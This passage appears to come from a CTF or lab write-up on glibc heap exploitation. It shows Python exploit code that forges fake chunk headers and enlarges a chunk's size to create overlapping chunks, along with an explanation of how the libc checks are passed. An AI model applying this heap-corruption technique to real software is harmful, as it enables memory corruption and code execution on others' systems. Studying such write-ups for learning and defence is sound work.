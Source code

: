 ``` python
create(0, 0x500, b"A"*0x80)
create(1, 0x500, b"B"*0x80)
create(2, 0x500, flat({
    0xe8: p64(0x21),
    0xe8+0x20: p64(0x21)
}, filler=b"C"))
create(15, 0x511, b"D"*0x80)

delete(0)
delete(1, True)

create(0, 0xa10, flat({
    0x508: p64(0x601)
}))
delete(1)
```

By doing the above we in `create(2, ...)` we say that at offset 0xe8 into the buffer place a p64(0x21), meaning we place a small chunk of size 0x20 and set `previous_inuse`. This tells libc that the 0x600 is in fact in use and are allowed to be freed. Another problem will accrue as well. Namely that it will now check the next `previous_inuse` bit of the small 0x20 chunk checking if it can consolidate the thow chunks to one 0x621 chunk, but again finds zero's. So we repeat by putting another fake chunk with `previous_inuse` bit set, telling libc the smaller chunk is also in use. This is done with the: `0xe8+0x20: p64(0x21)`. So to refere to our drawing from erlier we now have expanded size of `B` and created two fake chunks within the `green` chunk. Now `B` overlaps into `C` and we are acutally able to free both of them. Here is our diagram so far altough realy hard to draw overlapping chunks.


| ![Overlapping Chunks Diagram](imgs/diag2.png) |
|:--:|
| <b>Arrows point to the beginning of each chunk but the overlap so hard to read 🤨</b>|

The blue chunks reprecent chunks allocate and avaliable in `mem` and `red` is freed chunks.

we can now even free chunk at `mem[2]` and this is how our `exploit.py` looks so far:

``` python
create(0, 0x500, b"A"*0x80)
create(1, 0x500, b"B"*0x80)
create(2, 0x500, flat({
    0xe8: p64(0x21),
    0xe8+0x20: p64(0x21)
}, filler=b"C"))
create(15, 0x511, b"D"*0x80)

delete(0)
delete(1, True)

create(0, 0xa10, flat({
    0x508: p64(0x601)
}))
```